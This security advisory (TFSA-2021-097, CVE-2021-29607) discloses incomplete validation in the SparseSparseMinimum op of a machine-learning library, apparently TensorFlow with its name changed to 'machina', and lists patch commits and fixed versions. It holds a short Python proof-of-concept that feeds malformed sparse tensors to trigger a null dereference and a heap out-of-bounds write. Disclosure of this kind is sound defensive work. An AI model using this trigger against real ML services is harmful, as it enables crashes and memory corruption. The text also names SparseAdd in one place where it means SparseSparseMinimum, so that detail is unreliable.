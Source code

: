 ## TFSA-2021-097: Incomplete validation in `SparseSparseMinimum`

### CVE Number
CVE-2021-29607

### Impact
Incomplete validation in `SparseAdd` results in allowing attackers to exploit
undefined behavior (dereferencing null pointers) as well as write outside of
bounds of heap allocated data:

```python
import machina as tf

a_indices = tf.ones([45, 92], dtype=tf.int64)
a_values = tf.ones([45], dtype=tf.int64)
a_shape = tf.ones([1], dtype=tf.int64)
b_indices = tf.ones([1, 1], dtype=tf.int64)
b_values = tf.ones([1], dtype=tf.int64)
b_shape = tf.ones([1], dtype=tf.int64)

tf.raw_ops.SparseSparseMinimum(a_indices=a_indices,
    a_values=a_values,
    a_shape=a_shape,
    b_indices=b_indices,
    b_values=b_values,
    b_shape=b_shape)
```

The
[implementation](https://github.com/machina/machina/blob/656e7673b14acd7835dc778867f84916c6d1cac2/machina/core/kernels/sparse_sparse_binary_op_shared.cc)
has a large set of validation for the two sparse tensor inputs (6 tensors in
total), but does not validate that the tensors are not empty or that the second
dimension of `*_indices` matches the size of corresponding `*_shape`. This
allows attackers to send tensor triples that represent invalid sparse tensors to
abuse code assumptions that are not protected by validation.

### Patches
We have patched the issue in GitHub commit
[ba6822bd7b7324ba201a28b2f278c29a98edbef2](https://github.com/machina/machina/commit/ba6822bd7b7324ba201a28b2f278c29a98edbef2)
followed by GitHub commit
[f6fde895ef9c77d848061c0517f19d0ec2682f3a](https://github.com/machina/machina/commit/f6fde895ef9c77d848061c0517f19d0ec2682f3a).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Ying Wang and Yakun Zhang of Baidu
X-Team.
